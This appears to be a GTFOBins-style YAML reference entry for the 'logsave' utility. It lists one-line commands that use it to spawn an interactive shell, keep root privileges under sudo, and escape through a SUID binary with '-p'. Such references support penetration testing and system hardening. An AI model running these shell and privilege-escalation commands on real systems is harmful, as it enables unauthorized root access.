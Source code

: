 ```yaml
---
functions:
  shell:
    - code: logsave /dev/null /bin/sh -i
  sudo:
    - code: sudo logsave /dev/null /bin/sh -i
  suid:
    - code: ./logsave /dev/null /bin/sh -i -p
---
```

